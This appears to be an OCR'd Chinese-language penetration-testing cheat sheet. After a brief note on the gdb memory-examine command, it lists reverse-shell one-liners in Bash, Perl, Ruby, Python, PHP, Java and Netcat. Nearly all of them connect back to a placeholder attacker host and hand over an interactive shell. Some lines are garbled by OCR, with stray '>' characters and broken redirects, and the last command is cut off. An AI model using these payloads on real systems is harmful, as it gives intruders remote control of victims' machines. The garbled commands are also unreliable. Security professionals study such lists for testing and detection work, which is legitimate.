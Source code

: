# 显示特定内存地址的值
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
BASH 反弹 Shell
bash -i >& /dev/tcp/X.X.X.X/443 0>&1
exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do > $line 2>&5 >&5; done # or: while read line 0<&5; do > $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do > $line 2>&5 >&5; done # or:
while read line 0<&5; do > $line 2>&5 >&5; done
/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
PERL 反弹 Shell
perl -MIO -e '> $p=fork;exit,if(> $p);> $c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen(> $c,r);> $~->fdopen(> $c,w);system> $_ while<>;'
# Win 平台
perl -MIO -e '> $c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen(> $c,r);> $~->fdopen(> $c,w);system> $_ while<>;'
perl -e 'use Socket;> $i="10.0.0.1";> $p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(> $p,inet_aton(> $i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
RUBY 反弹 Shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
# Win 平台
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
PYTHON 反弹 Shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP 反弹 Shell
php -r '> $sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
JAVA 反弹 Shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \> $line 2>&5 >&5; done"] as String[])
p.waitFor()
NETCAT 反弹 Shell
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443
# 如果 -e 参数被禁用，可以尝试以下命令
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/